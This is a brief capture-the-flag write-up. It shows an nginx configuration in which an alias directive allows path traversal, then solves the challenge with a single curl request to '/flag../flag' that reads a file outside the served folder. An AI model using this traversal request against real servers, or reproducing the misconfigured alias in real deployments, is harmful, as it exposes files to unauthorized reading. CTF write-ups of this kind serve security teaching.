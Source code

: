 # chal5

## Description

This time we are given a basic `nginx.conf` file.

```
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;
daemon off;

events {
	worker_connections 768;
	# multi_accept on;
}

http {

	sendfile on;
	tcp_nopush on;
	tcp_nodelay on;
	keepalive_timeout 65;
	types_hash_max_size 2048;
	# server_tokens off;

	ssl_prefer_server_ciphers on;
	access_log /dev/null;
	error_log /error.log;
	gzip on;

	server {
	       listen 8081;


	       root /nginx;
	       index index.html;

	       location /flag {
			alias /nginx/;
	       }
	}
}
```

## Analysis

There's not a lot going on in the configuration. The only interesting part is the `alias` directive which turns out to be [quite quirky](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/).

## Solution

We can read the flag by navigating up a directory:

```
$ curl http://108.61.211.185:8081/flag../flag
junior-the_easy_way_up
```